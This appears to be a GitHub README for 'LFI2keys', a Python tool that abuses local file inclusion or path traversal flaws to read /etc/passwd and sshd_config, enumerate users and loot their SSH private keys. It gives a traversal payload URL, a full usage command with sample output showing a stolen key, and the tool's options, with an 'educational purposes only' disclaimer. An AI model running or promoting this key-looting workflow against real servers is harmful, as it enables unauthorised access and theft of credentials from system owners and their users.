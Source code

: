## Summary
Found a local file inclusion or path traversal vulnerability? Automate the extraction of SSH private keys with LFI2keys. It uses the exposed `/etc/passwd` file to extract valid users, checks for commonly named SSH keys, and gathers useful SSH configuration details from `/etc/ssh/sshd_config`.

## Usage
Provide the full URL of the vulnerable endpoint where you can read the `/etc/passwd` file, and supply a private key [wordlist](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists). Use the `-v` parameter for verbose output and for printing the found private key.

```bash
┌──(kali㉿DC07 | 2025-02-12 00:13:37)-[~]
└─$ python3 lfi2keys.py -u https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd -l ssh-priv-key-loot-extended.txt -o keys.txt

  _    ___ ___ ___ _  _______   _____ 
 | |  | __|_ _|_  ) |/ / __\ \ / / __|
 | |__| _| | | / /|   <| _| \ V /\__ \
 |____|_| |___/___|_|\_\___| |_| |___/

LFI to SSH Private Keys - Automated Looting Script

[+] Valid /etc/passwd file found
[+] Valid users exported:
    miranda -> /home/miranda
    steven -> /home/steven
    mark -> /home/mark
    nick -> /home/nick
[+] /etc/ssh/sshd_config file found
    PermitRootLogin: disabled
    PubkeyAuthentication: enabled
    PasswordAuthentication: disabled
    ChallengeResponseAuthentication: disabled
[+] Checking for SSH metadata (authorized_keys and known_hosts)...
[!] Found authorized_keys for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/authorized_keys
[+] Starting to FUZZ
[+] Private key found for nick at: https://127.0.0.1/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/nick/.ssh/id_ecdsa
[+] Results saved to keys.txt
[+] Done (～￣▽￣)～
```

## Options
```bash
  -h, --help            show this help message and exit
  -u URL, --url URL     LFI URL pointing to /etc/passwd
  -l LIST, --list LIST  Wordlist containing SSH private key names
  -o OUTPUT, --output OUTPUT
                        File to save found private key URLs and contents
  -p PROXY, --proxy PROXY
                        Proxy URL (e.g., http://127.0.0.1:8080)
  -v, --verbose         Enable verbose mode for debugging
  -a, --all             Also search the entire home directory (not just .ssh folder)
  -c, --continue-on-success
                        Continue scanning all users for private keys even after a match is found
```

## Disclaimer
The script provided is for educational purposes only, I am not responsible for your actions.

### Credits
- [PinoyWH1Z](https://github.com/PinoyWH1Z) for his [SSH private key wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists).
